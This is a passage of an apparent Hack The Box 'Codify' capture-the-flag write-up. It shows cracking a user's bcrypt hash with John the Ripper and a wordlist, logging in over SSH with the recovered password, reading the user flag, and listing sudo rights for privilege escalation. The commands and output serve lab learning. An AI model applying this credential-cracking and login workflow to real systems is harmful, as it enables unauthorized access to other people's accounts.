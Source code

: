 So this is bcrypt, let's decrypt it using john the ripper :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/HTB/Codify$ john hash --format=bcrypt --wordlist=/home/kyll/Desktop/code_folder/Tools/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
spongebob1       (joshua)     
1g 0:00:00:28 DONE (2024-02-02 17:33) 0g/s 48.24p/s 48.24c/s 48.24C/s winston..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Now we can connect to joshua using our newfound password `spongebob1` :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Software_exploitation/HTB/Codify$ ssh joshua@codify.htb
The authenticity of host 'codify.htb (10.10.11.239)' can't be established.
ECDSA key fingerprint is SHA256:uw/jWXjXA/tl23kwRKzW+MkhMkNAVc1Kwwlm8EnJrqI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added 'codify.htb' (ECDSA) to the list of known hosts.
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

[...]

Last login: Sat Feb  3 11:37:42 2024 from 10.10.14.61
joshua@codify:~$ whoami
joshua
joshua@codify:~$ 
```

We can now get the user flag :

```bash
joshua@codify:~$ cat user.txt
4fbfbaba86326bac045df7bd03871496
```

## Privilege escalation

Now that we have a foothold on joshua, we'll try and privilege escalate to root.

let's do a `sudo -l` to see which application we can run as root :

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
